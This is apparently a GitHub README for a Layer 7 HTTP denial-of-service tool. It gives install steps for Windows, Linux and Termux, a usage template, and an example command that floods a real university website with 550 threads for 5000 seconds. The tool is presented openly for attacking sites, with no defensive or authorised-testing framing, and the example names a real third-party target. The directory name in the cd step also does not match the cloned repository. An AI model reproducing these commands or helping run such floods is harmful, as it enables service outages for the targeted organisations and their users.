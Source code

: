<h1 align="center">DDOS Tool (Layer 7) </h1> 
<div align="center">
</div>

# :computer: Welcome
<p align="center">
  <img src="https://ctftalkz.xyz/user_avatar/ctftalkz.xyz/celikd/288/454_2.png">
</p>

# ⛔ INSTALL


<h2>Windows</h2> <img src="https://cdn.iconscout.com/icon/free/png-256/windows-221-1175066.png" width="50" height="50">  

  - Install Python 3.8 [Link](https://www.python.org/downloads/release/python-38)
  - Buka dan klik: `add python to PATH`
  - Download script <a href="https://github.com/Dhanush2468/DDOS-ATTACK-TOOL-BY-WHITEDEVIL.git" target="blank">Link</a>
  - Install Package: `pip install -r requirements.txt`  


 

 <h2>Linux</h2><img src="https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcR11tp5q3Bc5nb3EYXL3uvcFjkSWzkT43hdSQ&s" width="50" height="50">

```
sudo apt update
sudo apt install python3 python3-pip git -y
git clone https://github.com/Dhanush2468/DDOS-ATTACK-TOOL-BY-WHITEDEVIL.git
cd DDOS-TOOL-BY-WHITEDEVIL
pip3 install -r requirements.txt or python -m pip install -r requirements.txt
```

<h2>Termux</h2><img src="https://brandslogos.com/wp-content/uploads/images/large/terminal-logo.png" width="50" height="50">  

```
pkg update
pkg install python3 python3-pip git -y
git clone https://github.com/Dhanush2468/DDOS-ATTACK-TOOL-BY-WHITEDEVIL.git
cd DDOS-TOOL-BY-WHITEDEVIL
pip3 install -r requirements.txt
```

```
python3 ddos.py --time XXX --threads XXX --target [URL] --method HTTP
```

Example:  

```
python3 ddos.py --time 5000 --threads 550 --target https://giet.ac.in/ --method HTTP
```

RESULT :
![image](https://github.com/user-attachments/assets/4fd40b04-3a4a-4f4d-bfdc-09a2cb30fd79)



